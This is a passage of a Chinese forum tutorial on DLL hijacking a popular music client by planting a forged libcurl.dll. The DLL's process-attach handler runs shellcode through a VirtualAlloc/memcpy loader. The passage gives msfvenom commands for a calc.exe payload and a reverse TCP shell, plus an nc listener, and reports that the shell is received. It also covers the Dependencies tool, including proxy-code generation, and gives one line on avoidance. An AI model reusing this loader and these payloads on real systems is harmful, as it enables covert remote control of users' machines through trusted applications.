

`Pasted image 20251206173617.png`（64.47 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5NHw5YTJjZjBhYnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
2025-12-6 17:36 上传

先按照给出的将项类型改为自定义生成工具，然后将从生成中排除选择否点击应用。点击完应用后会刷新以下并多出自定义生成工具的侧边栏，根据给出的文字进行编写即可。



`Pasted image 20251206173648.png`（137.72 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5NXwyOTBkYzliNHwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图19（2025-12-6 17:36 上传）

## 完善 `dllmain.cpp` 并解决预编译头报错

填写完成后点击应用，这个时候对 `libcurl_jump.asm` 的设置就完成了。接着完善其他的文件，需要在 `dllmain.cpp` 的头部引用 `libcurl.h` 头文件。此时的 `dllmain.cpp` 是一个标准的 `DLL` 入口点函数，简单看一下

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
//引入头文件

BOOL APIENTRY DllMain( HMODULE hModule,
//hModule：当前 DLL 模块的句柄，标识这个 DLL 在进程中的位置
                       DWORD  ul_reason_for_call,
//ul_reason_for_call：调用原因代码，说明为什么执行DllMain
                       LPVOID lpReserved
//lpReserved：保留参数，根据调用原因有不同的含义
                     )
{
    switch (ul_reason_for_call)
    {
    //进程附加
    case DLL_PROCESS_ATTACH:
        //线程附加
    case DLL_THREAD_ATTACH:
    //线程分离
    case DLL_THREAD_DETACH:
    //进程分离
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

这里只要将我们引入的头文件名称进行替换就好，修改完成后保存



`Pasted image 20251206173724.png`（155.2 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5NnxiZjMyMmU3OXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图20（2025-12-6 17:37 上传）

此时进行生成会发现出现报错显示


`Pasted image 20251206173753.png`（19.73 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5N3xkNDZmNzc2Y3wxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图21（2025-12-6 17:38 上传）

这里是因为项目配置了使用预编译头（默认是 `pch.h`），但这个时候我们的代码开头并没有使用预编译头，这个时候对其进行修改即可，右键将属性中的预编译头修改成不使⽤预编译头（哪个文件显示在查找预编译头时遇到意外的文件结尾。是否忘记了向源中添加 `#include "pch.h"`？就对哪个文件进行修改）



`Pasted image 20251206173823.png`（122.5 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5OHwzYTM3OWI5ZnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图22（2025-12-6 17:38 上传）

## 生成、验证伪造 DLL 并注入功能代码

修改完成解决报错后，重新进行编译生成，此时便可以成功的生成文件



`Pasted image 20251206173853.png`（88.96 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5OXwwY2IxM2JjMnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图23（2025-12-6 17:38 上传）

这个时候生成的 `DLL` 文件是一个伪造出来的“干净的”`.dll`，重命名为 `libcurl.dll` 后放在我们某易云的软件下方，点击之后没有任何变化，某易云不会出报错，也不会正常的运行，查看任务管理器显示某易云音乐软件在运行，过一会回显示某易云崩溃掉了自己结束掉（毕竟我们的代码中什么都没有肯定没办法支撑某易云运行）。说明我们生成的 `libcurl.dll` 已经能够正常的被某易云接受使用，在生成之前将我们的想要实现功能的代码添加到文件中就可以正常劫持了。

### 弹出计算器

回到我们的 `dllmain.cpp` 中，前面简单的提了一下 `case DLL_PROCESS_ATTACH:` 是进程附加，简单理解就是程序执行到这里之后将会执行以下后续代码，这里我们在 `case DLL_PROCESS_ATTACH:` 后添加 `{}`，后续在 `{}` 中写入我们的相关代码。这里我们先以点击某易云音乐后弹出计算器为例。

首先准备好弹出计算器的代码，这里我们直接使用 `msfvenom` 来进行生成

```
msfvenom -p windows/x64/exec CMD=calc.exe -f c
```



`Pasted image 20251206173919.png`（552.19 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwMHwzZDVjNmM0NnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图24（2025-12-6 17:39 上传）

将生成的 C 语言数组复制粘贴到 `case DLL_PROCESS_ATTACH:` 后

再将分配内存的代码写入

```
//x64
char* v7A = (char*)VirtualAlloc(0, sizeof(buf), 0x3000u, 0x40u);

memcpy((void*)v7A, buf, sizeof(buf));

((void(*)())v7A)();
```



`Pasted image 20251206174020.png`（424.52 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwMXw1YmRmMzk0M3wxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图25（2025-12-6 17:40 上传）

点击生成即可



`Pasted image 20251206174057.png`（47.93 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwMnw1NmZlZGU5MHwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图26（2025-12-6 17:41 上传）

重命名为 `libcurl.dll` 将其拖到某易云程序的下面，点击某易云运行，成功弹出计算器。



`Pasted image 20251206174127.png`（210.51 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwM3xmZTk2YmJhY3wxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图27（2025-12-6 17:41 上传）

### 反弹 `shell`

程序会在弹出计算器过一会后崩溃，不过无伤大雅，我们要的目的已经实现了。接下来来进行一下反弹 `shell` 试试。先启动监听

```
nc -lvnp 6000
```

生成数组


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=端口 EXITFUNC=thread -f c
```

将生成后的 shellcode 放入文件当中，生成，重命名放入到某易云下，运行，成功接收到 shell。



Pasted image 20251206174155.png（123.32 KB，下载次数：0）

图28（2025-12-6 17:41 上传）

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwNHxkOTIwNGQ4NHwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

## 三、补充：依赖库查看工具 Dependencies

Dependencies 是一款 Windows 平台下的静态分析工具，用来分析可执行文件（EXE、DLL 等）所依赖的动态链接库（DLL）。它可以帮助开发者和系统管理员快速查找程序在运行时可能缺少的库文件或其他依赖项，以及分析依赖库的加载顺序和路径。

### 核心功能与用途

- 可视化依赖树：打开一个可执行文件后，工具会以树状图的形式展示其直接和间接依赖的所有 DLL（动态链接库）。可以清晰地看到 `App.exe` 依赖 `A.dll`，而 `A.dll` 又依赖 `B.dll`，如此层层递进。
- 列出导入函数：对于每个被依赖的 DLL，工具可以列出这个主程序从该 DLL 中调用了哪些具体的函数。
- 列出导出函数：对于 DLL 文件，工具可以列出该 DLL 向外提供了哪些可供调用的函数。
- 发现依赖问题：这是它最常用、也是最关键的用途。可以精确诊断出遇到的“由于找不到 `XXXX.dll`”之类的错误。工具会用不同的颜色和图标来标记问题：
  - 红色问号：表示根本找不到这个 DLL 文件。这是最致命的错误，程序会因此无法启动。
  - 黄色问号：表示找到了 DLL 文件，但该 DLL 本身还有依赖项缺失，或者它在当前系统的搜索路径中不存在。这可能导致运行时错误。
  - 错误函数：如果找到了 DLL，但 DLL 中缺少主程序需要调用的某个特定函数，该函数会被标记出来。

### 各区块的功能

左上角第一个窗口是 Dll 信息窗口，显示程序所需的 Dll 模块。



Pasted image 20251206174228.png（104.94 KB，下载次数：0）

图29（2025-12-6 17:42 上传）

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwNXwwMTllODhmNnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

点击一个 dll 动态链，右边就会出现两个窗口。第一个窗口是所选的 Dll 模块所使用的函数，分为：序数、提示、函数、入口点等讯息。



Pasted image 20251206174258.png（139.72 KB，下载次数：0）

图30（2025-12-6 17:43 上传）

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwNnw2ODZmZGRhYXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

右边第二个窗口是所选 Dll 模块的所有的导出函数，也分为：序数、提示、函数、入口点等讯息。


Pasted image 20251206174326.png（137.58 KB，下载次数：0）

图31（2025-12-6 17:43 上传）

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwN3w2OTdiZjM0YnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

### 右键菜单栏中的各个功能

- Highlight Matching Module In List (Ctrl+M)
  - 用途：高亮显示所有相同的模块。
  - 使用场景：看到一个 DLL 被多个不同的模块（EXE 或其他 DLL）依赖时，使用这个功能可以快速在左侧的树形列表中高亮显示出所有引用了这个特定 DLL 的地方。这能帮助你一眼看清这个 DLL 的依赖范围，对于排查重复依赖或版本冲突非常有用。
- Copy File Path (Ctrl+C)
  - 用途：复制当前选中模块的完整磁盘路径。
  - 使用场景：发现一个可疑的或需要的 DLL，想直接在文件资源管理器中找到它时，不需要手动去搜索，用这个功能复制它的完整路径，然后可以粘贴到任何地方（例如文件管理器的地址栏或命令行中）。
- Expand All / Collapse All
  - 用途：展开或折叠当前选中的节点及其所有子节点。
  - 使用场景：分析一个具有复杂、深层依赖关系的模块时，树形结构会很长。使用这两个功能可以快速展开所有分支查看全部细节，或者折叠所有分支以便专注于上层结构。
- Full Paths (F9)
  - 用途：切换是否显示模块的完整路径。
  - 使用场景：默认情况下，左侧树形视图可能只显示 DLL 的文件名（如 `KERNEL32.dll`）。按下 F9 或勾选此选项后，它会显示每个 DLL 被加载位置的完整绝对路径（如 `C:\Windows\System32\KERNEL32.dll`）。主要用于区分不同路径下的同名 DLL（例如系统目录下的和应用程序自带目录下的），是诊断“DLL Hell”问题的核心功能。
- View Module in separate application (Alt+Enter)
  - 用途：在新的 Dependencies 程序窗口中分析当前选中的模块。
  - 使用场景：当你想专注于分析某一个特定的 DLL，而不想受整个庞大的父级依赖树干扰时，就用这个功能。它会单独打开一个窗口，只显示这个 DLL 的导入和导出表，查看起来更清晰。
- View Module in Reviewer (Alt+Enter)
  - 用途：在右侧的“Reviewer”面板中查看当前选中模块的详细信息。
  - 使用场景：这是最常用的功能之一。当你选中一个模块后，按 Alt+Enter 或点击此选项，会在右侧面板加载该模块的详细分析报告，包括：
    - Imports：这个模块依赖哪些其他模块和函数。
    - Exports：这个模块提供了哪些函数给其他程序调用。
    - Runtime dependencies：运行时依赖。
    - 其他详细信息（如时间戳、镜像特性等）。
- AHeadLib Codegen (Alt+Enter)
  - 用途：为一个头文件库（Header Library）生成代码。这是一个非常好用的功能，特别是进行逆向工程或 hooking 的开发者。
  - 使用场景：AHeadLib 是一个用于创建“头文件形式的 DLL 导入库”的工具。当你有一个 DLL，想直接使用它的函数而不需要传统的 `.lib` 导入库文件时，可以使用这个功能。
    - 它会根据选中 DLL 的导出函数表（Exports），自动生成一个 C/C++ 头文件（`.h`）和对应的源文件（`.c/.cpp`）的代码。
    - 生成的代码包含了所有导出函数的正确声明和包装，你可以将这些文件直接加入到你的项目中，从而调用该 DLL 的函数。
    - 分析未文档化的 DLL 或为第三方 DLL 快速创建导入接口时非常强大。

## 四、如何规避

规避方法也很简单，不要轻易下载不明来源的软件就好了。


_cgi-bin_mmwebwx-bin_webwxgetmsgimg__&MsgID=7027685192985578554&skey=@crypt_.jpg（143.63 KB，下载次数：0）

最终（2025-12-6 17:49 上传）

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxOTAwOHw3OGE0ZTgwOHwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)
